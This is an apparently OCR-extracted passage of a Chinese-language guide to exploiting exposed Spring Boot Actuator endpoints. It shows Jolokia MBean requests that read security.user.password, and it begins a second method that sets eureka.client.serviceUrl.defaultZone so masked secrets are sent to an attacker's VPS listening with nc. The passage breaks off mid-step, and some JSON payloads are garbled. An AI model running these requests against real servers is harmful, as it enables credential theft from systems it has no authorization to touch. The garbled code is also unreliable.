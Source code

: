 *   调用 `org.springframework.cloud.context.environment` Mbean
    

> 实际上是调用 org.springframework.cloud.context.environment.EnvironmentManager 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:: ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:: ["security.user.password"]}
```

*   调用其他 Mbean
    

> 目标具体情况和存在的 Mbean 可能不一样，可以搜索 getProperty 等关键词，寻找可以调用的方法。

### 0x04：获取被星号脱敏的密码的明文 (方法二)

#### 利用条件：

*   可以 GET 请求目标网站的 `/env`
    
*   可以 POST 请求目标网站的 `/env`
    
*   可以 POST 请求目标网站的 `/refresh` 接口刷新配置（存在 `spring-boot-starter-actuator` 依赖）
    
*   目标使用了 `spring-cloud-starter-netflix-eureka-client` 依赖
    
*   目标可以请求攻击者的服务器（请求可出外网）
    

#### 利用方法：

##### 步骤一：找到想要获取的属性名

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

##### 步骤二：使用 nc 监听 HTTP 请求

在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80

```

##### 步骤三：设置 eureka.client.serviceUrl.defaultZone 属性

将下面 `http://value:${security.user.password}@your-vps-ip` 中的 `security.user.password` 换成自己想要获取的对应的星号 * 遮掩的属性名；
